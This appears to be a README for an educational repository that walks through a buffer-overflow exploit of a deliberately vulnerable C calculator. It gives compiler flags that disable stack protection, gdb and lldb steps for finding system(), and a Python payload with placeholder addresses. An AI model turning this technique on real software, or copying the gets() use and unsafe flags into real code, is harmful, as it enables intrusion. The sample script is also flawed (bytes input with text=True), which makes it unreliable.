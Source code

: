 Buffer Overflow Exploitation - Vulnerable Calculator
This repository contains a vulnerable C program designed to demonstrate a buffer overflow vulnerability. The purpose of this project is to show how an attacker can exploit such a vulnerability to execute arbitrary code, such as running system commands.

Files
vulnerable_calculator.c: Contains the vulnerable C code with a buffer overflow vulnerability using the gets() function.
rce_calc.c: Modified version of the calculator that demonstrates remote code execution (RCE) using the buffer overflow.
calculator.c: A basic calculator implementation.

vulnerable_calculator: Compiled executable of the vulnerable calculator program.
README.md: This file containing instructions.
How to Compile the Code
You need to compile the vulnerable calculator first. Use the following commands:


gcc -o vulnerable_calculator calculator.c -fno-stack-protector -z execstack -m32
Explanation:

-fno-stack-protector: Disables stack protection.
-z execstack: Marks the stack as executable, allowing shellcode to run from the stack.
-m32: Compiles the code for a 32-bit architecture to match buffer overflow exploitation techniques.
Running the Code
Without Exploitation (Normal Execution)
To run the vulnerable calculator without exploiting it, simply run:

./vulnerable_calculator
You will be prompted to enter numbers and an operation. The program is vulnerable to a buffer overflow when you enter a large string in the "comment" section.

Exploiting the Vulnerability
To exploit the buffer overflow and potentially execute arbitrary code, you need to overflow the buffer and overwrite the return address with the address of the system() function.

Requirements
gdb or lldb: You'll need a debugger like gdb (for Linux) or lldb (for macOS) to identify memory addresses for the system() function and the "ls" string.
Shellcode: The attacker will need to craft a payload that overflows the buffer, hijacks the return address, and executes arbitrary code.
Steps to Exploit the Vulnerability
Find the Address of system(): Use gdb or lldb to find the address of system() in the binary.

Example using gdb:

gdb ./vulnerable_calculator
(gdb) disassemble system
Example using lldb:


lldb ./vulnerable_calculator
(lldb) disassemble system
Create a Payload: Create a payload that:

Fills the buffer.
Overwrites the return address with the address of system().
Passes the address of "ls" as the argument for system().
Example payload creation:


import sys
import subprocess

system_addr = b"\x12\x34\x56\x78"  # Replace with the actual address of system()
ls_addr = b"\x90\xab\xcd\xef"  # Replace with the actual address of "ls"

payload = b"A" * 50 + system_addr + b"BBBB" + ls_addr
subprocess.run(["./vulnerable_calculator"], input=payload, text=True)
Run the Exploit: Run the vulnerable program with the crafted payload to execute the ls command:


./vulnerable_calculator < input.txt
Ensure that input.txt contains the crafted payload.

Using LLDB or GDB for Debugging
If you are testing the vulnerability and want to see the program’s behavior step by step, use lldb or gdb:

Using LLDB (macOS):
Launch the program with lldb:

lldb ./vulnerable_calculator
(lldb) run
Set breakpoints and inspect the program’s memory to find addresses.

Using GDB (Linux):
Launch the program with gdb:


gdb ./vulnerable_calculator
(gdb) run
Use commands like disassemble and info functions to find the address of functions.

Troubleshooting
Common Issues:
Invalid Address: Ensure that the addresses of system() and "ls" are correct. If the addresses are incorrect, the payload will fail to execute the desired command.
Segmentation Fault: If you get a segmentation fault, the return address might not be correctly aligned or overwritten. Double-check the memory layout and ensure you have the correct return address and function pointers.
